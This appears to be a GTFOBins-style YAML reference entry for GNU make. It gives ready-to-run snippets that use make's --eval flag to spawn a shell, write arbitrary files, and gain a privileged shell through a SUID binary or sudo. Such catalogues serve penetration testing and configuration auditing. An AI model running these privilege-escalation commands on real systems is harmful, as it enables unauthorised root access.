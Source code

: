 ```yaml
---
name: make
description: All these examples only work with GNU `make` due to the lack of support of the `--eval` flag. The same can be achieved by using a proper `Makefile` or by passing the content via stdin using `-f -`.
functions:
  shell:
    - code: |
        COMMAND='/bin/sh'
        make -s --eval=$'x:\n\t-'"$COMMAND"
  file-write:
    - description: Requires a newer GNU `make` version.
      code: |
        LFILE=file_to_write
        make -s --eval="\$(file >$LFILE,DATA)" .
  suid:
    - code: |
        COMMAND='/bin/sh -p'
        ./make -s --eval=$'x:\n\t-'"$COMMAND"
  sudo:
    - code: |
        COMMAND='/bin/sh'
        sudo make -s --eval=$'x:\n\t-'"$COMMAND"
---
```

